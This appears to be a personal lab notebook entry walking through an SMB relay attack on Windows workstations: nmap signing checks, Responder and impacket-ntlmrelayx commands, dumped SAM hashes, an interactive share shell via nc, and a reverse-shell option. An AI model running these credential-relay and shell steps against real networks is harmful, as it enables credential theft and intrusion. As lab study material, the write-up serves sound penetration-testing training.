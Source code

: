 ```yaml
---
created_date: 02 October 2023
updated_date: 02 October 2023
type: SMB Relay Testing - Windows
url: https://www.youtube.com/watch?v=mcaWOkmJVHk
---
```

##### Machine Information
```
Gobots (Attacker)
===============

192.168.146.134/135 (ALLIANCE/HORDE Workstations)
===============
```
###### High-Level Summary

A brief description of the attack chain with machine names, including the depth of compromise should be included here.

- SMB relays happen when local administrators are misconfigured by being local admin's on multiple different workstations.

-------
##### Lessons Learned
-  Cannot SMB relay against DC, has to be local machines due to dumping SAM file.
-  Doesn't work all the time, takes multiple attempts for a successful ntlm hash dump.
-  Recommend using `impacket-ntlmrelayx` instead of `ntlmrelayx.py` due to the impacket one being alot more consistent

-------------
##### Initial Scanning

- Default scanning conducted in [[1 link-local_multicast_name_Resolution (LLMNR)]]
-------------
###### SMB Relay Check
- If  `Message signing enabled and required` comes back this device IS NOT vulnerable to smb_relay attacks
- If it shows `Message signing enabled but not required` then it is vulnerable to smb relays
```bash
[root💀/dev/shm] [192.168.146.129] [2023-10-02 12:42:33] 
 └─╼ # nmap --script=smb2-security-mode.nse 192.168.146.*
Nmap scan report for 192.168.146.134
Host is up (0.0020s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 00:0C:29:7D:84:45 (VMware)

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Nmap scan report for 192.168.146.129
Host is up (0.000010s latency).
Not shown: 985 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
88/tcp   open  kerberos-sec
110/tcp  open  pop3
135/tcp  open  msrpc
143/tcp  open  imap
389/tcp  open  ldap
443/tcp  open  https
445/tcp  open  microsoft-ds
587/tcp  open  submission
1433/tcp open  ms-sql-s
3389/tcp open  ms-wbt-server
6666/tcp open  irc

Host script results:
| smb2-security-mode: 
|   2:0:2: 
|_    Message signing enabled but not required

Nmap done: 256 IP addresses (6 hosts up) scanned in 11.32 seconds


```
-------
##### Responder.conf setup
#responder 
- Used `vim /usr/share/responder/Responder.conf` to change SMB & HTTP to OFF because we are going to use `ntlmrelayx.py` to dump the SAM file.
![[Pasted image 20231002120403.png]]
##### Responder.py
#sha256sum 
```bash
[root💀/usr/share/responder] [192.168.146.129] [2023-10-02 12:01:33] 
 └─╼ # sha256sum Responder.py 
cfb555bb68a8967b158ff8c810456c8249db3ef4edba51c0290787b3114101d8  Responder.py
```
###### Responder.py Setup
#responder
Setting up responder.py to listen on network interface eth0, same as it was during LLMNR poisoning
```bash
[root💀/usr/share/responder] [192.168.146.129] [2023-10-02 09:40:33] 
 └─╼ # python3 Responder.py -I eth0 -dwv

-I eth0 = to specify network interface to listen on
-d = Enable answers for NETBIOS DHCP broadcast requests.
-w = Start the WPAD rogue proxy server.
-v = Increase verbosity
```
![[Pasted image 20231002142557.png]]

---------------------
###### NTLMrelayx
#ntlmrelayx
- The first one is a hit or miss, recommend using `impacket-ntlmrelayx` instead as it is way more consistent
```bash
[root💀/usr/share/doc/python3-impacket/examples] [192.168.146.129] [2023-10-02 14:48:23] 
 └─╼ # sha256sum ntlmrelayx.py 
6b1c181ad220238e50464e45b09ddd0aa17c694793d24a83165a2111ebe11eb3  ntlmrelayx.py

[root💀/usr/share/doc/python3-impacket/examples] [192.168.146.129] [2023-10-02 14:51:18] 
 └─╼ # sha256sum /usr/bin/impacket-ntlmrelayx
5385227093ca3c01e47713aed4b570689688ca65e76ec676709f155bdea5ce89  /usr/bin/impacket-ntlmrelayx
```
- Create target.txt file to have the ALLIANCE/HORDE IP's or Workstation IP addresses, can list an entire /24 if wanted
![[Pasted image 20231002143109.png]]
- Started `ntlmrelayx.py`
- This one is a hit or miss if it works or not
```powershell
[root💀/usr/share/doc/python3-impacket/examples] [192.168.146.129] [2023-10-02 12:57:09] 
 └─╼ # python3 ntlmrelayx.py -tf /dev/shm/target.txt -smb2support
```
Recommend using this one for more consistent results
```bash
[root💀/usr/bin] [192.168.146.129] [2023-10-02 14:42:05] 
 └─╼ # ./impacket-ntlmrelayx -tf /dev/shm/target.txt -smb2support
```
Trigger an event on Horde 192.168.146.134 by using a fake share such as `\\cry`
![[Pasted image 20231002151317.png]]
SAM Hash Dump's
#hashes #sam
```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:2d31cefa5ac81003579efa63c4bcf01b:::
Sylvanas Windrunner:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
```
![[Pasted image 20231002142827.png]]
```
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:0461d08fe373ba1122d8c25cf734205c:::
Anduin Wrynn:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::

```
![[Pasted image 20231002151610.png]]

------------
##### Gaining an Interactive shell
- Utilize the same Responder.py 
```bash
[root💀/usr/share/responder] [192.168.146.129] [2023-10-02 09:40:33] 
 └─╼ # python3 Responder.py -I eth0 -dwv
```
- add a `-i` for interactive to be able to look through share drive
```bash
[root💀/usr/bin] [192.168.146.129] [2023-10-02 15:25:18] 
 └─╼ # ./impacket-ntlmrelayx -tf /dev/shm/target.txt -smb2support -i
```
- Will display the port to hit to get into interactive shell
![[Pasted image 20231002153411.png]]
- Connect via `nc`
- note that the IP shows kali machine IP
```bash
[root💀/usr/share/doc/python3-impacket/examples] [192.168.146.129] [2023-10-02 14:51:22] 
 └─╼ # nc 127.0.0.1 11000
# who
host: \\192.168.146.129, user: Administrator, active:   422, idle:     0
# shares
ADMIN$
C$
IPC$
# use C$
# ls
drw-rw-rw-          0  Mon Oct  2 10:23:38 2023 $Recycle.Bin
```
- Add a `-c` to run commands instead for commands
```bash
[root💀/usr/bin] [192.168.146.129] [2023-10-02 15:25:18] 
 └─╼ # ./impacket-ntlmrelayx -tf /dev/shm/target.txt -smb2support -c "whoami"
```
- Add a `-e` to utilize a reverse shell
```bash
[root💀/usr/bin] [192.168.146.129] [2023-10-02 15:25:18] 
 └─╼ # ./impacket-ntlmrelayx -tf /dev/shm/target.txt -smb2support -e shell.exe
```

There is a method to get a reverse shell through powershell empire as well, haven't looked to much into it but heres a video from tcm
`https://www.youtube.com/watch?v=mcaWOkmJVHk`